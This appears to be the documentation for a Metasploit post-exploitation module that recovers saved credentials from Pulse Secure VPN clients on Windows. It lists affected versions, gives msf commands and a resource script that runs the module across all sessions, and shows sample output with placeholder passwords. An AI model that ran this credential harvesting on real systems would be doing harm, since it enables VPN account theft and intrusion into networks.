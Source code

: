 ## Vulnerable Application

Pulse Secure VPN Client for versions 9.1 prior to 9.1R4 and 9.0 prior to 9.0R5.

An end-to-end setup with working Juniper Pulse Secure VPN server, Pulse Secure client on
Microsoft Windows, and valid credentials are required for Pulse Secure client to save
credentials locally and therefore test this.

## Verification Steps

1. Get a Meterpreter shell on a Windows machine that has Pulse Secure client installed.
2. Load the module: `use post/windows/gather/credentials/pulse_secure`
3. Set the correct session on the module: `set SESSION *session id*`
4. Run the module with `run` and enjoy the loot.

## Scenarios

The command for all scenarios is the same:

```
msf > use post/windows/gather/credentials/pulse_secure
msf > set SESSION 1
msf > run
```

If you wish to run the post module against all sessions from framework, here is how:

1. Create the following resource script:
```
framework.sessions.each_pair do |sid, session|
  run_single("use post/windows/gather/credentials/pulse_secure")
  run_single("set SESSION #{sid}")
  run_single("run")
end
```
2. At the msf prompt, execute the above resource script:
`msf > resource path-to-resource-script`

### Pulse Secure 9.0.4 on Microsoft Windows 10 Enterprise 19042

```
msf post(windows/gather/credentials/pulse_secure) > run

[*] Target is running Pulse Secure Connect build 9.0.4.1731.
[+] This version is considered vulnerable.
[*] Running credentials acquisition.
[+] Account found
[*]      Username: 
[*]      Password: John2020!!
[*]      URI: https://vpn.contoso.local
[*]      Name: Contoso VPN
[*]      Source: user
[*] Post module execution completed
```

### Pulse Secure 9.0.5 on Microsoft Windows 10 Enterprise 19042

With leftovers from previously installed version (9.0.4):

```
msf post(windows/gather/credentials/pulse_secure) > run

[*] Target is running Pulse Secure Connect build 9.0.5.1907.
[!] You're executing from an unprivileged process so this version is considered safe.
[!] However, there might be leftovers from previous versions in the registry.
[!] We recommend running this script in elevated mode to obtain credentials saved by recent versions.
[*] Running credentials acquisition.
[+] Account found
[*]      Username:
[*]      Password: John2020!!
[*]      URI: https://vpn.contoso.local
[*]      Name: Contoso VPN
[*]      Source: user
[*] Post module execution completed
```

Without any leftovers from previously installed versions:

```
msf post(windows/gather/credentials/pulse_secure) > run

[*] Target is running Pulse Secure Connect build 9.0.5.1907.
[!] You're executing from an unprivileged process so this version is considered safe.
[!] However, there might be leftovers from previous versions in the registry.
[!] We recommend running this script in elevated mode to obtain credentials saved by recent versions.
[*] Running credentials acquisition.
[*] Post module execution completed
```


### Pulse Secure 9.0.5 on Microsoft Windows 10 Enterprise 19042 (Elevated)

```
msf post(windows/gather/credentials/pulse_secure) > run

[*] Target is running Pulse Secure Connect build 9.0.5.1907.
[+] You're executing from a privileged process so this version is considered vulnerable.
[*] Running credentials acquisition.
[+] Account found
[*]      Username: john.doe@contoso.local
[*]      Password: John2020!!
[*]      URI: https://vpn.contoso.local
[*]      Name: Contoso VPN
[*]      Source: user
[*] Post module execution completed
```

### Pulse Secure 9.1.3 on Microsoft Windows 10 Enterprise 19042

```
msf post(windows/gather/credentials/pulse_secure) > run

[*] Target is running Pulse Secure Connect build 9.1.3.1313.
[+] This version is considered vulnerable.
[*] Running credentials acquisition.
[+] Account found
[*]      Username:
[*]      Password: John2020!!
[*]      URI: https://vpn.contoso.local
[*]      Name: Contoso VPN
[*]      Source: user
[*] Post module execution completed
```

### Pulse Secure 9.1.4 on Microsoft Windows 10 Enterprise 19042

With leftovers from previously installed version (9.1.3):

```
msf post(windows/gather/credentials/pulse_secure) > run

[*] Target is running Pulse Secure Connect build 9.1.4.1955.
[!] You're executing from an unprivileged process so this version is considered safe.
[!] However, there might be leftovers from previous versions in the registry.
[!] We recommend running this script in elevated mode to obtain credentials saved by recent versions.
[*] Running credentials acquisition.
[+] Account found
[*]      Username: 
[*]      Password: John2020!!
[*]      URI: https://vpn.contoso.local
[*]      Name: Contoso VPN
[*]      Source: user
[*] Post module execution completed
```

Without leftovers:

```
msf post(windows/gather/credentials/pulse_secure) > run

[*] Target is running Pulse Secure Connect build 9.1.4.1955.
[!] You're executing from an unprivileged process so this version is considered safe.
[!] However, there might be leftovers from previous versions in the registry.
[!] We recommend running this script in elevated mode to obtain credentials saved by recent versions.
[*] Running credentials acquisition.
[*] Post module execution completed
```

### Pulse Secure 9.1.4 on Microsoft Windows 10 Enterprise 19042 (Elevated)

```
msf post(windows/gather/credentials/pulse_secure) > run

[*] Target is running Pulse Secure Connect build 9.1.4.1955.
[+] You're executing from a privileged process so this version is considered vulnerable.
[*] Running credentials acquisition.
[+] Account found
[*]      Username: john.doe@contoso.local
[*]      Password: John2020!!
[*]      URI: https://vpn.contoso.local
[*]      Name: Contoso VPN
[*]      Source: user
[*] Post module execution completed
```

### Host without Pulse Secure

```
msf post(windows/gather/credentials/pulse_secure) > run

[-] Pulse Secure Connect client is not installed on this system
[*] Post module execution completed
```

## References

- https://qkaiser.github.io/reversing/2020/10/27/pule-secure-credentials
- https://kb.pulsesecure.net/articles/Pulse_Security_Advisories/SA44601
